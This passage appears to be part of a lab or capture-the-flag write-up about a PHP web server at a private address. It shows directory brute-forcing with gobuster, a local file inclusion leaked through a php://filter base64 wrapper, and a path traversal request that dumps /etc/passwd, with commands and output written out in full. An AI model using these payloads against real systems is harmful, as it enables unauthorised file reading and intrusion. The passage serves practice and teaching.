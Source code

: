     /index.html           (Status: 200) [Size: 80]
    /file.php             (Status: 200) [Size: 0] 
    /secret.php           (Status: 200) [Size: 54]

Going to ***http://10.0.0.17/planet/secret.php*** we seem to get the output of the ***whoami*** command on the remote machine

    uid=33(www-data) gid=33(www-data) groups=33(www-data) 

Going to ***http://10.0.0.17/planet/file.php*** we don't any output from the file. Since this is a PHP file I tired passing arguments in the url.

***http://10.0.0.17/planet/file.php?file=secret.php*** doesn't show anything but ***http://10.0.0.17/planet/file.php?file=secret*** outputs the content of the ***secret.php*** file. 

![image](https://user-images.githubusercontent.com/76552238/172730465-56360db9-88bc-456a-b832-8649bd8c3aba.png)

This might indicate that this file is vulnerable to a LFI. I remember from a different machine I did, that something similar happened. I had used a PHP filter wrapper to encode the code of the local file with Base64 and after decoding it I got it's source code. Let's see if this works here as well.

Using this article here I was able to get it to work.
***https://medium.com/@nyomanpradipta120/local-file-inclusion-vulnerability-cfd9e62d12cb***

    # curl 'http://10.0.0.17/planet/file.php?file=php://filter/convert.base64-encode/resource=secret' | base64 -d
    % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                    Dload  Upload   Total   Spent    Left  Speed
    100    88  100    88    0     0  91571      0 --:--:-- --:--:-- --:--:-- 88000
    <?php
        system("id"); //                  /My_H1dd3n_S3cr3t
    ?>

Looking at the comment in the source code of ***secret.php*** it looks like a directory. Let's try to go to ***http://10.0.0.17/planet/My_H1dd3n_S3cr3t***. After going to the directory we don't get an error. This means this directory is on the remote machine. Let's try to brute force it's directories.

    # gobuster dir -u http://10.0.0.17/planet/My_H1dd3n_S3cr3t/ -w /usr/share/wordlists/dirbuster/directory-list-1.0.txt -x txt,php,html

    /index.html           (Status: 200) [Size: 4]
    /file.php             (Status: 200) [Size: 0]

Once again we have a possible LFI, going to ***http://10.0.0.17/planet/My_H1dd3n_S3cr3t/file.php*** let's see if we can read any files using the ***file*** parameter.

    # curl 'http://10.0.0.17/planet/My_H1dd3n_S3cr3t/file.php?file=../../../../../etc/passwd'

    root:x:0:0:root:/root:/bin/bash
    daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
    bin:x:2:2:bin:/bin:/usr/sbin/nologin
    sys:x:3:3:sys:/dev:/usr/sbin/nologin
    sync:x:4:65534:sync:/bin:/bin/sync
    games:x:5:60:games:/usr/games:/usr/sbin/nologin
    man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
    lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
    mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
    news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
    uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
    proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
    www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin